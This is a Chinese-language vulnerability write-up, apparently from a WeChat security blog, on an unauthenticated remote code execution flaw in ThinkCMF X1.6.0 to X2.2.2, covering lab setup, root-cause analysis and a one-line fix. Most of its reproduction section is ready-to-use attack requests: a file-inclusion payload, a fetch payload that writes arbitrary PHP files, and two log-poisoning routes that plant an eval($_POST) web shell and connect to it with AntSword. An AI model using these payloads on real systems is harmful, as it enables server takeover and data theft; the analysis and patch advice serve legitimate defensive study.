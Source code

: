 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jmyGLRsH7NAH_KqiVH48uQ)

**ThinkCMF 简介**

ThinkCMF 是一款基于 PHP+MYSQL 开发的中文内容管理框架，底层采用 ThinkPHP3.2.3 构建。ThinkCMF 提出灵活的应用机制，框架自身提供基础的管理功能，而开发者可以根据自身的需求以应用的形式进行扩展

每个应用都能独立的完成自己的任务，也可通过系统调用其他应用进行协同工作。在这种运行机制下，开发商场应用的用户无需关心开发 SNS 应用时是如何工作的，但他们之间又可通过系统本身进行协调，大大的降低了开发成本和沟通成本

**漏洞介绍**

远程攻击者在无需任何权限情况下，通过构造特定的请求包即可在远程服务器上执行任意代码

**影响版本**

```
ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2
```

**环境搭建**

ThinkCMFX2.2.2 下载链接：https://pan.baidu.com/s/1rK1-_BLmH1VPXsIUfr1VUw 提取码：wuhw

将下载好的 ThinkCMF 解压后放在 WWW 目录下，然后浏览器访问即可看到安装页面

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmR32ZuEKFRFGFIGeF2WVjfn78LgwdwsapmncBnjQB1UxicGXrTby6pwg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmN3ic80Gcve8u6mcmZHxnZicQhyyAZZ0bCyBibXflHp5S8krNQFNPxcAAg/640?wx_fmt=png)

安装好之后访问页面为

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmWNdZVztcnWbhbZFPf8D6huMet4ibm0v3wEsXlVbb0Sy9ocG1dqYDtKA/640?wx_fmt=png)

**漏洞分析**

首先打开 index.php 文件，查看程序的项目路径，可以看到项目路径在 application 目录下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmteIyDic2DosOiaia1Z90jialu5Ke78wfoPQRHhXgvTicrcHYlGJzFibrB8Pg/640?wx_fmt=png)

在项目路径下找到入口分组的控制器类选择 IndexController 控制器类打开，可以知道继承了 HomebaseController，通过 gma 参数指定分组模块方法，这里可以通过 a 参数直接调用 PortalIndexController 父类 (HomebaseController) 中的一些权限为 public 的方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmrXV4DS3oXf9TZlaFUQZYvhLLaGNMQlowoeesYHIrFQwIR6It7oMzPA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmZiaHYqxPoQxfGn36ZNDfWEibaWEYPoIMhQW9MXl1v5ArJ4tm65Uico1cQ/640?wx_fmt=png)

可以看的的 public 方法里就有 display()、fetch(), 还有方法作用及参数含义  

display 函数 (**可以自定义加载模版，通过 $this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配**) 的作用是加载模板和页面输出，所对应的参数为：templateFile 为模板文件地址，charset 模板字符集，contentType 输出类型，content 输出内容

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmxmBib9qFgofumN3vS81HUe56ku8lR9bvMu4FD4O2pOdav2sggOzRtibA/640?wx_fmt=png)

templateFile 参数会经过 parseTemplate() 方法处理  
在 applicationCommonControllerAdminbaseController.class.php 的 parseTemplate() 方法如下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPm6LibSJyYfnnubKKO8rgG98ZN3bzpoGGmdmT2hLWtOibcI5TsNjibia6PZQ/640?wx_fmt=png)

parseTemplate() 方法作用：判断模板主题是否存在，当模板主题不存在时会在当前目录下开始查找，形成文件包含

构造的 payload 为 ：index.php?a=display&templateFile=README.md

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmqSopicSbLFiczwiaPZVGtD7ibV1wm4ZTuZQSO03ia7UXd8icUib3mAOFoia8lg/640?wx_fmt=png)

这里 fetch 函数的三个参数分别对应模板文件，输出内容，模板缓存前缀。利用时 templateFile 和 prefix 参数可以为空，在 content 参数传入待注入的 php 代码即可

**漏洞复现**

1. 通过构造 a 参数的 display() 方法，实现任意内容包含漏洞  

```
?a=display&templateFile=README.md
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmg1wiaUJNW2feLUmvvWeLl7Gc3iaT6qb3QoQicanyJJvHQib2pC5mgGNXmg/640?wx_fmt=png)

2. 通过构造 a 参数的 fetch() 方法，在不需要知道文件路径的情况下就可以实现任意文件写入

```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('1.php','<?php phpinfo(); ?>')</php>
```

执行 paylaod，如果页面是空白的，则说明可能写入成功

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmK0KwzopkAvm0F5vsFc8qiaeXZPicnADzsysy4vvJC78pWicLibiaTFl5Tkg/640?wx_fmt=png)

3. 访问写入的文件 1.php，发现成功写入文件  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPm5kBddhqXOZ7x1g5wb1LPUFWeib2A7ibQQhLzAcJ3uUEJ5TDanicK40PSg/640?wx_fmt=png)

**ThinkCMF 缓存 getshell**

```
?a=display&templateFile=<?php file_put_contents('shell.php','<?php+eval($_POST["6666"]);?>');die();?>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmmfaTI11vNPP9pZnvLV2g9zpz3sPmmTTmAhQhDwCfxxhAHLJtw6asNw/640?wx_fmt=png)

****有两种方式可以 getshell****

****第一种方法****

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmZQkygccOph9fEibKXROVuvswzrrwZia6dcniaxiarbG5AM2ib3QCM2Ry5qA/640?wx_fmt=png)

发送请求，thinkphp 生成的日志的格式为 年 - 月份 - 日期 (请求的日期)  

```
http://target.domain/?a=display&templateFile=<?php eval($_POST["6666"]);?>
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmAoMcfoNEoCyEeiapC9ePttFMiaxdBuh37pfSOyWGS00Dj2r8NRoRP0uw/640?wx_fmt=png)

可以看到已经成功创建了 shell.php 文件

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmZqeepaWQMDeiaDbm7lWQsU3qPCMic1zZWnKL6z9AJGQwLIPvs9AA4OfQ/640?wx_fmt=png)

然后使用蚁剑成功连接

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmO4nKBHDSb00ibliaFcjOTic1nHZJrabnNUsrdORXwAYc5rXwxHG2BQnFA/640?wx_fmt=png)

**第二种方法**

发送以下请求  

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPm4NyXOgGFxNU5ostia7V5f5jNpPkEfMiaibSM9icD7t7oYhjC6nd0eiakphQ/640?wx_fmt=png)

然后直接使用一句话管理工具连接

```
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDoRaBBTEIiaic32eduibVPcPmWZsyk1xMuic0cS1Zp9SoVOHqV3f2S3yktrWAC7KDPjOPeEAWuM6LBaw/640?wx_fmt=png)

**修复方法**

将 HomebaseController.class.php 和 AdminbaseController.class.php 类中 display 和 fetch 函数的修饰符改为 protected